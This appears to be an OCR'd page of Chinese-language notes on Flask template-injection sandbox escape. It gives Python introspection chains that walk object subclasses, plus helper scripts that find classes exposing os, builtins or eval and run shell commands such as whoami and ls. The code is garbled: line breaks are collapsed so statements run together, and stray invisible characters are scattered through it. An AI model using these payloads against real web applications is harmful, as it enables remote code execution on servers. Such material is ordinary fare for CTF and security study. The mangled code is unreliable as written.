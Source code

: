 ```
# 一 flask

## 1 、基本用法

>>> [].__class__.__base__
<class 'object'>
>>> [].__class__.__mro__
(<class 'list'>, <class 'object'>)
>>> [].__class__.__bases__
(<class 'object'>,)

## 2、取子类

[].__class__.__base__.__subclasses__()
[].__class__.__bases__[0].__subclasses__()
[].__class__.__bases__[-1].__subclasses__()
[].__class__.__mro__[-1].__subclasses__()

## 3findpayload

# print("1:","".__class__)
# print("2:","".__class__.__bases__)
# print("3","".__class__.__mro__)
# print("4","".__class__.__bases__[0].__subclasses__())
# for m in "".__class__.__bases__[0].__subclasses__():
#     print(m)
# for c in [].__class__.__base__.__subclasses__():
#     if (c.__name__=='catch_warnings'):
#         print( c.__init__.__globals__['__builtins__'])
​
​
def find_payload():#"".__class__.__mro__[-1].__subclasses__() ====>  "".__class__.__bases__[0].__subclasses__()for i,item in enumerate("".__class__.__bases__[0].__subclasses__()):# print(i,item)try:if "os" in item.__init__.__globals__:print("os:",i,item)# print(item.__init__.__globals__['os'].system("dir ./"))# print(item.__init__.__globals__['os'].popen('ls').read())# breakif "builtins" in item.__init__.__globals__:print("builtins:",i,item)# print(item.__init__.__globals__['builtins'].eval("__import__('os').popen('dir ').read()"))# print(item.__init__.__globals__['builtins'].eval("__import__('os').system('ls')"))if 'linecache' in item.__init__.__globals__.keys():print("linecache:", i, item)
​except Exception as e:pass
​
​
​
def find_eval():for i,item in enumerate("".__class__.__bases__[0].__subclasses__()):# if item.__name__ == 'catch_warnings':if  item.__name__=='catch_warnings':# print(item)# for key,b in item.__init__.__globals__.items():for b in item.__init__.__globals__.values():
​if b.__class__ == {}.__class__:# print(b.__class__)if 'eval' in b.keys():# print(b.keys())# print(b["eval"])print(b["eval"]('__import__("os").popen("whoami").read()'))# print(b["eval"])#print(b)# print(key)
​
​
​
def test():for i ,index in enumerate("".__class__.__mro__[-1].__subclasses__()):try:if "builtins" in str(index.__init__.__globals__):print(i,index.__init__.__globals__["builtins"])print(i, index.__init__.__globals__.items())# print(index.__init__.__globals__['builtins'].eval("__import__('os').popen('dir ').read()"))break
​except:pass
​
​
​
if __name__ == '__main__':# find_eval()# find_payload()test()

## 4、search
```